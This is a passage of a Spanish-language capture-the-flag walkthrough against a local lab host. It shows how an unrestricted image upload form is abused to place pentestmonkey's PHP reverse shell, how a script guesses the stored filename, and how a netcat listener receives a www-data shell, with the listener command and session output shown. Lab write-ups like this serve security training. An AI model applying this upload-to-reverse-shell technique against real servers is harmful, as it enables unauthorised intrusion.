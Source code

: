 Sigo el enlace a upload.php.

![image](https://github.com/user-attachments/assets/cd1c509e-9414-4938-9921-2621860966ea)

Parece que estamos limitados a subir archivos de imagen.

Vamos a subir uno a ver que pasa.

![image](https://github.com/user-attachments/assets/ab3ce687-45a9-4f56-a5c2-86cfc3a06a8e)

A pesar de subir un archivo .jpg me redirecciona a la web upload.php y parece que no funciona la subida.

Pruebo varias extensiones  de imagenes y no hay diferencia.

Decido probar a subir un tipo de extension distinta. Uso la reverseshell de pentestmonkey. Renombro el archivo a shelly.php y lo subo.

![image](https://github.com/user-attachments/assets/84fed8b6-a5ca-455d-8776-c08aaec340a7)

Esto parece que sí hace algo distinto.

Ahora debo localizar el archivo subido. 

Le doy muchisimas vueltas, incluso estoy un par de días pensando…
Casi tiro la toalla.

Despues de hacer cientos de pruebas llego a la simple conclusion de que el archivo se guarda en la ruta http://172.17.0.2/hakademy/xxx_shelly.php

Así que creo un script en python que sustituye las xxx por letras, haciendo todas las combinaciones posibles hasta que encuentra una respuesta válida.
![image](https://github.com/user-attachments/assets/b063620f-0883-48d6-a2d2-106d32146d31)

Se puede descargar el script desde mi github.
```
https://github.com/afgsanchez/writeups
```

Ahora pongo a netcat a la escucha en el puerto donde configuré la reverseshell.
```
└─# nc -nlvp 4444
listening on [any] 4444 ...
```

Y apunto en el navegador hacia la ruta encontrada por el script.
![image](https://github.com/user-attachments/assets/a1c5adb6-be6e-425f-8e22-90cf77db082a)

Vuelvo a mi terminal de netcat y conseguimos la intrusion!!

```
└─# nc -nlvp 4444
listening on [any] 4444 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 34030
Linux b26f6749e4a2 6.6.15-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.6.15-2kali1 (2024-05-17) x86_64 x86_64 x86_64 GNU/Linux
 03:25:11 up 46 min,  0 user,  load average: 0.31, 0.48, 0.52
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (33): Inappropriate ioctl for device
bash: no job control in this shell
www-data@b26f6749e4a2:/$ whoami
whoami
www-data
www-data@b26f6749e4a2:/$ 


```
